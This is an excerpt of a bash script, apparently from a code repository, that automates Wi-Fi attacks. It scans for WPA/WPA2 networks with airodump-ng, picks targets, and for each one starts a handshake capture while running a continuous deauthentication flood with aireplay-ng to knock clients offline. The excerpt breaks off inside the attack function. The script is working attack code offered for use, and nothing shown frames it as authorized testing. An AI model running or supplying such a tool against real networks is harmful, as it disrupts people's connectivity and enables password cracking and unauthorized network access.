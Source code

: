 ```bash
log() {
    echo -e "${GREEN}[$(date '+%Y-%m-%d %H:%M:%S')] $1${NC}"
}

warn() {
    echo -e "${YELLOW}[$(date '+%Y-%m-%d %H:%M:%S')] WARNING: $1${NC}"
}

error() {
    echo -e "${RED}[$(date '+%Y-%m-%d %H:%M:%S')] ERROR: $1${NC}"
}

# Create results directory
mkdir -p "$RESULTS_DIR"

# Initial network scan
scan_networks() {
    log "Starting network discovery scan for $SCAN_TIME seconds"
    timeout "$SCAN_TIME" airodump-ng --write "$RESULTS_DIR/scan" --output-format csv "$INTERFACE" || true
    
    log "Network scan completed. Analyzing results..."
    
    # Parse CSV for WPA networks
    if [[ -f "$RESULTS_DIR/scan-01.csv" ]]; then
        grep -E "WPA|WPA2" "$RESULTS_DIR/scan-01.csv" > "$RESULTS_DIR/wpa-targets.txt" || true
        TARGET_COUNT=$(wc -l < "$RESULTS_DIR/wpa-targets.txt" 2>/dev/null || echo "0")
        log "Found $TARGET_COUNT WPA/WPA2 networks"
    else
        warn "No scan results found"
        exit 1
    fi
}

# Attack individual network
attack_network() {
    local bssid="$1"
    local channel="$2"
    local essid="$3"
    
    log "Attacking network: $essid ($bssid) on channel $channel"
    
    local capture_file="$RESULTS_DIR/attack-$(echo "$bssid" | tr ':' '-')"
    
    # Start capture
    timeout $ATTACK_TIMEOUT airodump-ng -c "$channel" --bssid "$bssid" -w "$capture_file" "$INTERFACE" &
    local capture_pid=$!
    
    sleep 5
    
    # Deauth attack
    log "Sending deauthentication packets to force handshake"
    timeout 30 aireplay-ng -0 0 -a "$bssid" "$INTERFACE" &
    local deauth_pid=$!
    
    # Wait for capture
    sleep 60
    
    # Stop attacks
    kill $capture_pid $deauth_pid 2>/dev/null || true
    wait $capture_pid $deauth_pid 2>/dev/null || true
    
```